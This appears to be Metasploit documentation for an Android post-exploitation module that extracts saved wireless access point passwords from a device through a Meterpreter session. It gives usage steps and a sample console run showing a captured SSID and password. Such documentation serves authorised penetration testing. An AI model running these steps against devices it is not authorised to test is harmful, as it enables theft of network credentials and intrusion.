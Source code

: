 ## Vulnerable Application

  This post-exploitation module will extract saved wireless AccessPoint
  credentials from the target device.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use android/gather/wireless_ap`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted bssids and passwords of wireless
     APs

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - Wireless AP creds

## Example Scenario


  ```
  msf5 exploit(multi/handler) > use post/android/gather/wireless_ap
msf5 post(android/gather/wireless_ap) > set session 1
session => 1
msf5 post(android/gather/wireless_ap) > run

Wireless APs
============

 SSID                  net_type  password
 ----                  --------  --------
 ADYYYXRoYXJ2YWpvc2hp  WPS       lkjhgfdsa


[*] Post module execution completed
msf5 post(android/gather/wireless_ap) >
  ```

